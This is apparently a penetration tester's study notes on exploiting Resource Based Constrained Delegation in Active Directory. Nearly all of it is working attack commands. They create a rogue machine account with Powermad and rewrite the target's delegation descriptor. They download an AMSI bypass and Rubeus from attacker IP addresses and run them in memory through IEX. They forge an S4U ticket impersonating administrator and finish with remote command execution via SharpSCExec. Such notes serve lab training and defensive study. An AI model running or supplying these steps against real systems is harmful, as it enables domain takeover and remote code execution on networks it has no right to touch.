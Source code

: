 
### Resource Based Constrained Delegation (2012)
    - switches it around with approval from the backend service via msDS-AllowedToActOnBehalfOfOtherIdentity property
    - still uses S4U2Self and S4U2Proxy, but KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.
    - the frontend service must have an SPN set in the domain
        - any attack against RBCD needs to happen from a computer account or a service account with a SPN
    - same attack can be used if we compromise a frontend service that has its SID configured in the msDS-AllowedToActOnBehalfOfOtherIdentity property of a backend service

    - **Attack**:  If you have write equivalent privileges over a Computer account you can obtain privileged access in that machine by enabling RBCD
        - **Can be used to get access as any user (including DA) to the computer**

    - Enumeration:
        - finding computers we have rights over:
            - Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

    - STEP 1: Using GenericWrite to edit msDS-AllowedToActOnBehalfOfOtherIdentity:
            - also works if we have GenericAll/WriteProperty/WriteDACL access
        - allow my arbitrary new computer account that can delegate to it
        - Checking new computer account quota limit:
            - Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
        - Creating new computer object w/ Powermad.ps1:
            - . .\powermad.ps1
            - (new-object system.net.webclient).downloadstring('http://192.168.49.121/powermad.ps1') | IEX
            - New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
            - Get-DomainComputer -Identity myComputer
        - Generating, Converting, and setting SID & SD & DACL on the backend service:
            - $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
            - $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
            - $SDbytes = New-Object byte[] ($SD.BinaryLength)
            - $SD.GetBinaryForm($SDbytes,0)
            - Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
        - Verifying DACL:
            - $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
            - $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
            - $Descriptor.DiscretionaryAcl
            - ConvertFrom-SID S-1-5-21-......

    - STEP 2: Exploitation:  
        - *Run Rubeus from memory:
            - (new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX
            - $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.210/Rubeus.exe')
            - $assem = [System.Reflection.Assembly]::Load($data)
            - [Rubeus.Program]::Main("s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt".Split())
            - [Rubeus.Program]::Main("s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/jump09.ops.comply.com /altservice:host /ptt".Split())
            - klist
        - convert hash for new computer:  .\Rubeus.exe hash /password:h4x
        - Exploit:  .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
        - Confirm:
            - klist
            - dir \\appsrv01.prod.corp1.com\c$
            - RCE:  
                    - .\SharpSCExec.exe APPSRV01 SensorService "cmd.exe /c ping -n 2 192.168.45.210"